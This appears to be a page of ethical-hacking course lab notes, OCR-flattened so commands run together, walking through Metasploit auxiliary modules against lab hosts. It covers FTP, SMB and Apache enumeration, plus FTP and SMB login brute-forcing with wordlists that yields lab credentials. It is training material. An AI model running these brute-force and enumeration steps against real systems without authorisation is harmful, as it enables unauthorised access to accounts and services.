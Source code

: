 > **`auxiliary/scanner/ftp/ftp_version`**

ip -br -c aworkspace -a FTP\_ENUMsearch portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.146.175.3run\[+] 192.146.175.3: - 192.146.175.3:21 - TCP OPENbacksearch type:auxiliary name:ftpuse auxiliary/scanner/ftp/ftp\_versionset RHOSTS 192.146.175.3run\[+] 192.146.175.3:21 - FTP Banner: '220 ProFTPD 1.3.5a Server (AttackDefense-FTP) \[::ffff:192.146.175.3]\x0d\x0a'​search ProFTPD

> **`auxiliary/scanner/ftp/ftp_login`**

backsearch type:auxiliary name:ftpuse auxiliary/scanner/ftp/ftp\_loginshow optionsset RHOSTS 192.146.175.3set USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txtrun\[+] 192.146.175.3:21 - 192.146.175.3:21 - Login Successful: sysadmin:654321

> **`auxiliary/scanner/ftp/anonymous`**

backsearch type:auxiliary name:ftpuse auxiliary/scanner/ftp/anonymousset RHOSTS 192.146.175.3run

**​**[**SMB/SAMBA**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/smb-enum#lab-3)**​**

> **`auxiliary/scanner/smb/smb_version`**

ip -br -c asetg RHOSTS 192.132.155.3workspace -a SMB\_ENUMsearch type:auxiliary name:smbuse auxiliary/scanner/smb/smb\_versionoptionsrun\[\*] 192.132.155.3:445 - Host could not be identified: Windows 6.1 (Samba 4.3.11-Ubuntu)

> **`auxiliary/scanner/smb/smb_enumusers`**

backsearch type:auxiliary name:smbuse auxiliary/scanner/smb/smb\_enumusersinforun\[+] 192.132.155.3:139 - SAMBA-RECON \[ john, elie, aisha, shawn, emma, admin ] ( LockoutTries=0 PasswordMin=5 )

> **`auxiliary/scanner/smb/smb_enumshares`**

backsearch type:auxiliary name:smbuse auxiliary/scanner/smb/smb\_enumsharesset ShowFiles truerun\[+] 192.132.155.3:139 - public - (DS)\[+] 192.132.155.3:139 - john - (DS)\[+] 192.132.155.3:139 - aisha - (DS)\[+] 192.132.155.3:139 - emma - (DS)\[+] 192.132.155.3:139 - everyone - (DS)\[+] 192.132.155.3:139 - IPC$ - (I) IPC Service (samba.recon.lab)

> ​[**`auxiliary/scanner/smb/smb_login`**](https://www.offsec.com/metasploit-unleashed/smb-login-check/)​

backsearch smb\_loginuse auxiliary/scanner/smb/smb\_loginoptionsset SMBUser adminset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txtrun\[+] 192.132.155.3:445 - 192.132.155.3:445 - Success: '.\admin:password'

**​**[**HTTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/http-enum#lab-3)**​**

> 🔬 [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)​

* Remember to specify the correct port and if targeting a web server with SSL enabled, in the options.

ip -br -c asetg RHOSTS 192.106.226.3setg RHOST 192.106.226.3workspace -a HTTP\_ENUM

> **`auxiliary/scanner/http/apache_userdir_enum`**

search apache\_userdir\_enumuse auxiliary/scanner/http/apache\_userdir\_enumoptionsinfoset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtrun\[+] http://192.106.226.3/ - Users found: rooty
